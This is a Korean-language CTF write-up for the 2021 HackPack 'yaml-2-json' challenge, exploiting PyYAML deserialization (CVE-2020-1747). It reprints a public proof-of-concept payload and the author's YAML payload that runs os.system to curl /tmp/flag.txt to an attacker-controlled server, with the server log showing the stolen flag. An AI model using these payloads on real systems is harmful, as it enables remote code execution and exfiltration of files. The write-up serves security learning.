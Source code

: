 ```yaml
---
title: "[2021 HackPack CTF] baby calc writeup"
categories:
  - CTF
author_profile: true
---
```


**2021 hackpack ctf - yaml-2-json writeup**

- PyYaml 취약점 `CVE-2020-1747`

---

# `page view`

![image](https://user-images.githubusercontent.com/44183111/115112242-95756200-9fbf-11eb-8cae-163d382c7f4e.png)

- 해당 페이지는 `yaml` 문법을 `json` 으로 변환하는 기능을 한다.
- `untrusted input`에 대한 검증을 하는가가 핵심 분석 포인트

---

# `CVE-2020-1747`

 A vulnerability was discovered in the PyYAML library in versions before 5.3.1, where it is susceptible to arbitrary code execution when it processes untrusted YAML files through the full_load method or with the FullLoader loader. Applications that use the library to process untrusted input may be vulnerable to this flaw. An attacker could use this flaw to execute arbitrary code on the system by abusing the python/object/new constructor.

---

# `proof of concept`

- https://gist.github.com/adamczi/23a3b6d4bb7b2be35e79b0667d6682e1

```python
# pyyaml==5.3 required. Vulnerability has been fixed in 5.3.1
# More: ret2libc's report in https://github.com/yaml/pyyaml/pull/386
# Explanation: https://2130706433.net/blog/pyyaml/
from yaml import *

with open('payload.yaml','rb') as f:
  content = f.read()

data = load(content, Loader=FullLoader) # Using vulnerable FullLoader

```

```yaml
# The `extend` function is overriden to run `yaml.unsafe_load` with 
# custom `listitems` argument, in this case a simple curl request

- !!python/object/new:yaml.MappingNode
  listitems: !!str '!!python/object/apply:subprocess.Popen [["curl", "http://127.0.0.1/rce"]]'
  state:
    tag: !!str dummy
    value: !!str dummy
    extend: !!python/name:yaml.unsafe_load
```

---

# `exploit`

- 해당 취약점을 이용하여 `Remote Code Execution` 을 통해 플래그를 얻어낼 것이다.
- 우선, 임의의 서버에서 `python3 http.server` 로 리퀘스트를 받을 수 있도록 한다.

``` bash
python3 -m http.server 3000
```

<br/>

- `exploit` 코드는 아래와 같다.

``` yaml
"parkmin": !!python/object/apply:os.system ["curl http://myserver.com:3000/?`cat /tmp/flag.txt`"]
```

<br/>

- 서버에서 확인해보면 플래그를 확인할 수 있다.

``` bash
152.14.92.89 - - [16/Apr/2021 18:06:26] "GET /? HTTP/1.1" 200 -
152.14.92.89 - - [16/Apr/2021 18:06:33] "GET /? HTTP/1.1" 200 -
152.14.92.89 - - [16/Apr/2021 18:06:47] "GET /?flagPy_PyYaml_Yaml_Py HTTP/1.1" 200 -
152.14.92.89 - - [16/Apr/2021 18:07:07] "GET /?flagPy_PyYaml_Yaml_Py HTTP/1.1" 200 -
```

<br/>

`flag{Py_PyYaml_Yaml_Py}`

---
